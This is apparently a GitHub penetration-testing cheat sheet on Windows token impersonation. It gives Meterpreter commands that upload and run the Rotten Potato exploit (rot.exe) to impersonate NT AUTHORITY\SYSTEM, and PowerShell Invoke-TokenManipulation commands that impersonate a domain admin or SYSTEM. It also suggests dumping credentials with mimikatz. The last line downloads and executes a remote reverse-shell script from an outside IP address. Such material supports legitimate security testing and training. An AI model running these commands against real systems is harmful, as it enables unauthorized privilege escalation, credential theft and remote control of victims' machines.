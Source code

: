 ## Token Impersonation

Token impersonation using the rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM. This can be achieved through uploading an exe file exploit and executing or through memory injection with powershell. 

[https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)

### Meterpreter
Get a meterpreter and upload rot.exe to the box
```
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

### Powershell

We can do token impersonation completely without Meterpreter, which is really nice. This trick spawns a new thread, but also works in the same thread. However, if you type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process (or a new shell) and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`
`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"`